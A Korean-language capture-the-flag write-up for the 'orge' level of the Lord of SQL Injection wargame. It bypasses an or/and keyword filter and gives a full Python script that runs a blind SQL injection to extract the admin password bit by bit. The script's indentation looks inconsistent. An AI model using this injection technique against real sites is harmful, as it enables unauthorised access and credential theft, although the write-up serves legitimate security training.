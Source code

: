 <!DOCTYPE html>
<html>
<head>
        <link rel="stylesheet" type="text/css" href="sytle.css">
</head>
<body>
        <h1>Lord of SQL Injection orge Write-Up</h1>
</body>
<br>
<br>
</html>

문제를 살펴보자

![image](https://github.com/user-attachments/assets/67efb332-bcff-4b47-890e-60540580addf)

코드를 읽어보면 가장 먼저 눈에 띄는 부분은 
```python
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

or와 and를 차단하고 있다.

그렇다면 or는 ||로, and는 &&(%26%26)로 대체할 수 있다.

이번 문제에서도 ```addslashes()```가 사용되고 있다. 

```python
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge");
```
또한 위 쿼리를 봤을 때 orc 문제와 마찬가지로 패스워드를 직접 알아내는 문제 같다.

```python
$query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
$result = @mysqli_fetch_array(mysqli_query($db,$query)); 
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";
```
그리고 위에 쿼리를 살펴보면 싱글쿼터를 차단하고 있지 않다. 

orc 문제에서 했던 방법 그대로 풀면될 것 같다.

하지만 값을 하나하나 넣는게 너무 힘들었기 때문에 이번에는 파이썬으로 자동화 스크립트를 만들어 풀어보려 한다.

1. 초기값 설정
   
필요한 값들을 설정한다.

```python
from requests import get

url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
header = {'cookie' : 'PHPSESSID=자신의 쿠키값'}
```

2. pw 길이 확인

먼저 pw 값을 구하기 위해 pw 길이부터 구한다.

or와 and가 필터링되어 있기 때문에 각각 ||, &&을 사용한다.

그러나 url에서 &은 혼동이 올 수 있기 때문에 &대신에 아스키코드인 %26을 써준다.

```python
password_length = 0

while True:
	password_length += 1
    query = f"{url}/?pw=' || id='admin' %26%26 length(pw)={password_length}-- -"
    response=get(query, headers=header)
    if "<h2>" in response.text:
    	break
print(f"password_lengh : {password_length}")
```

pw 길이 확인 때 실행될 sql query

```python
select id from prob_orge where id='guest' and pw='' || id='admin' && length(pw)=1-- -'
```

3. pw의 각 문자 별 bit 길이 찾기

pw의 문자가 어떤 문자로 이루어져 있는지 모르기 때문에 bit열로 변환해서 추출하기 전에 길이를 알아야 한다.

ord도 or에 걸리기 때문에 ascii로 변경시킨다.

```python
for i in range(1, password_length + 1):
	bit_length = 0
	while True:
    	bit_length += 1
        query = f"{url}/?pw=' || id='admin' %26%26 length(bin(ascii(substr(pw, {i}, 1))))={bit_length}-- -"
        response=get(query, headers=header)
    	if "<h2>" in response.text:
    		break
    print(f"bit_number : {i}, length : {bit_length}")
```

각 문자열 bit 길이 확인할 때 실행될 sql query

```python
select id from prob_orge where id='guest' and pw='' || id='admin' && length(bin(ascii(substr(pw, 1, 1))))=1-- -'
```

4. pw의 각 문자 별 bit열 추출하기

pw의 bit열의 길이를 통해 bit열을 추출한다.

```python
bits = ""
for j in range(1, bit_length + 1):
	query = f"{url}/?pw=' || id='admin' %26%26 substr(bin(ascii(substr(pw, {i}, 1))), {j}, 1)= '1'-- -"
    response=get(query, headers=header)
    if "<h2>" in response.text:
    	bits += "1"
    else:
    	bits += "0"
print(f"bit_number : {i}, bit : {bits}")
```

pw의 bit열 추출할 때 실행될 sql query

```python
select id from prob_orge where id='guest' and pw='' || id='admin' && substr(bin(ascii(substr(pw, 1, 1))), 1, 1)= '1'-- -'
```

5. bit열을 문자열로 변환

bit열을 문자열로 변환하면 pw의 값이 나온다.

```python
password = ""
...
password += int.to_bytes(int(bits, 2), (bit_length + 7) // 8, "big").decode("utf-8")

print(password)
```

위 과정을 합치면 코드는 다음과 같다.

```python
from requests import get

url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
header = {'cookie' : 'PHPSESSID=자신의 쿠키값'} 

password_length = 0

while True:
	password_length += 1
    query = f"{url}/?pw=' || id='admin' %26%26 length(pw)={password_length}-- -"
    response=get(query, headers=header)
    if "<h2>" in response.text:
    	break
print(f"password_lengh : {password_length}")

password = ""

for i in range(1, password_length + 1):
	bit_length = 0
	while True:
    	bit_length += 1
        query = f"{url}/?pw=' || id='admin' %26%26 length(bin(ascii(substr(pw, {i}, 1))))={bit_length}-- -"
        response=get(query, headers=header)
    	if "<h2>" in response.text:
    		break
    print(f"bit_number : {i}, length : {bit_length}")
    
    bits = ""
	for j in range(1, bit_length + 1):
		query = f"{url}/?pw=' || id='admin' %26%26 substr(bin(ascii(substr(pw, {i}, 1))), {j}, 1)= '1'-- -"
    	response=get(query, headers=header)
    	if "<h2>" in response.text:
    		bits += "1"
    	else:
    		bits += "0"
	print(f"bit_number : {i}, bit : {bits}")
    
    password += int.to_bytes(int(bits, 2), (bit_length + 7) // 8, "big").decode("utf-8")

print(password)
```

코드를 실행하면 admin의 pw인 '7b751aec'를 얻을 수 있다.




